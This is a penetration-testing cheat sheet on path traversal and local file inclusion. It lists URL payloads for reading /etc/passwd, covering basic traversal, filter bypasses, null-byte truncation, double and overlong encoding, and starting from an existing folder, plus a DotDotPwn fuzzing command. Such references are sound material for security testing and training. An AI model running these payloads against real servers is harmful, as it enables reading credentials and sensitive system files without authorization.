 # Path Traversal/File Inclusion

Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

* Application code and data.
* Credentials for back-end systems.
* Sensitive operating system files.

## Basic LFI and bypasses

```bash
http://example.com/home.php?id=../../../etc/passwd
http://example.com/home.php?id=....//....//....//etc/passwd
http://example.com/home.php?id=..///////..////..//////etc/passwd
http://example.com/home.php?id=....//....//....//etc/passwd
http://example.com/home.php?id=....\/....\/....\/etc/passwd
http://example.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
http://example.com/home.php?id=/var/www/../../etc/passwd
```

## Null Byte

Bypass by appending additional characters to the end of the provided string (bypassing: `$_GET['param']."php"`)

```bash
http://example.com/home.php?id=../../../../etc/passwd%00
http://example.com/home.php?id=../../../../etc/passwd%00.jpg    (append needed extension)
```

This is **solved since PHP 5.4**

## Encoding

You could use non-standard encondings like double URL encode:

```bash
http://example.com/home.php?id=..%252f..%252f..%252fetc%252fpasswd
http://example.com/home.php?id=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd%00
http://example.com/home.php?id=%2e%2e%252f%2e%2e%252f%2e%2e%252fetc%2fpasswd
```

## From existent folder

It's possible that the back-end is verifying the folder path:

```bash
http://example.com/home.php?id=utils/scripts/../../../../../etc/passwd
```

## Tools

### [DotDotPwn](https://github.com/wireghoul/dotdotpwn)

It's a very flexible intelligent fuzzer to discover traversal directory vulnerabilities in software such as HTTP/FTP/TFTP servers, Web platforms such as CMSs, ERPs, Blogs, etc.

```bash
 sudo ./dotdotpwn.pl -m http-url -u https://example.com/image?id=TRAVERSAL -O -k "root:"
```

## Wordlists

* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)





